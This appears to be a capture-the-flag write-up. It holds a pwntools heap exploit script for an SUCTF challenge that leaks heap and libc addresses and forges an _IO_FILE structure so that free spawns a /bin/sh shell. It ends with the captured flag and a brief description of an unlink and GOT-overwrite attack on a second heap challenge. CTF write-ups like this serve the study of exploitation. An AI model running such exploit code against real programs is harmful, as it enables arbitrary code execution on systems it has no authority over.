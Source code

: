 def add(size, content):
    r.sendlineafter('>>', '1')
    r.sendlineafter('Size:', str(size))
    r.sendlineafter('Content:', content)

def show(idx):
    r.sendlineafter('>>', '2')
    r.sendlineafter('Index:', str(idx))
    r.recvuntil('Content:')
    return r.recvuntil('1.Add a not', drop=True)

def pandora():
    r.sendlineafter('>>', '3')
    r.sendlineafter('yes:1)', '1')


add(10, 'a'*24+flat(0xec1))
add(4000, 'a')
pandora()
x = show(0).strip()
heap = u64(x.ljust(8, '\x00')) - 0x140
print 'heap:', hex(heap)
add(0x90-8, 'a'*7)
x = show(1).strip()
libc = u64(x.ljust(8, '\x00')) - 0x3bfb58
print 'libc:', hex(libc)

#_IO_list_all = libc + 0x3c5520
_IO_list_all = libc + 0x3c0500
_IO_str_jumps = libc + 0x3bc4c0
#system = libc + 0x45390
system = libc + 0x456d0
pop_rax_rbx_rbp = libc + 0x1fa71
ret = libc + 0x1fa74
add(10, flat(
    'a'*16,
    0x0, 0x61,
    0, _IO_list_all-0x10,
    0, 1,
    0, heap+0x1a0, heap+0x1a0,      # buf_base to heap & buf_end-buf_base==0
    [0]*18, _IO_str_jumps,
    ret, system,                    # malloc do nothing, free(buf_base) == system('/bin/sh')
    '/bin/sh\x00',
))

#raw_input("@")
r.sendlineafter('>>', '1')
r.sendlineafter('Size:', '10')

#embed()
r.interactive()

# SUCTF{Me1z1jiu_say_s0rry_LOL}
Heap (b04902036)
there are four functions : creat(length, content), delete(index), show(index) and edit(index, content) creat(length, content) : malloc 2 chunk of size "length", let's call them a and b, then read "length" bytes into a and strcpy(b, a), free a and store b in a global array heap_form delete(index) : free(heap_form[index]), heap_form[index] = NULL show(index) : show content of heap_form[index] edit(index, content) : write strlen(heap_form[index]) bytes to heap_form[index] vulnerability : In function edit(), it allows us to overwrite the size of next chunk, and thus we can perform an unlink, then modify got and get shell. I choose to overwrite got of free() since everytime the program read input, it will malloc 8 bytes and free it. So we can input '/bin/sh\x00' after we overwrite the got and get shell.
